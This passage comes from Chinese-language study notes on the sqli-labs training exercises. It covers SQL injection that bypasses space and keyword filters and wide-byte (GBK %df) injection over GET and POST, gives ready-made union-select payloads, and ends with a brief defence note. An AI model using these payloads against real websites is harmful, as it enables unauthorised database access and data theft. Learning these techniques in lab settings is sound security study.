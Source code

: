 ```
```
屏蔽 空格 - union select

/?id=10000000'%0buNion%0bsElect%0b1,2,3 ||  '1'='1

```




## 13 宽字节注入

### less32

输入的东西被它自己添加的`\`转义，通过我们自己添加`\`无法绕过

MySQL用gbk编码，把2个字符当做一个汉字存在【中国的网站】

因为urlencode(\')=%5c%27

`id=1%df\'`

用`%df'`让它成为：`%df%5c`变成一个汉字，这样就可以使`'`逃逸出来

可变化，不一定`%df`

```
宽字节注入

mysql用gbk编码，把2个字符当作一个汉字存在
%df吃掉\，因为urlencode(\')= %5c%27，如果前面加上%df，%df%5c是一个汉字,%27会独立出来

id=-2%df' union select 1,2,3 --+

```



## 14 post宽字节注入

### less34

post宽字节注入

去burpsuite里提交数据包，与直接前端提交不同。



```
重要！
在post情况下的宽字节注入，得直接在burp的post数据包中修改，因为前端提交的时候和直接在数据包中修改，前端的不会变成中文

uname=admi%df' union select 1,2 #&passwd=admin&submit=Submit
```





### 防御：

把数据库的编码方式改为Unicode





```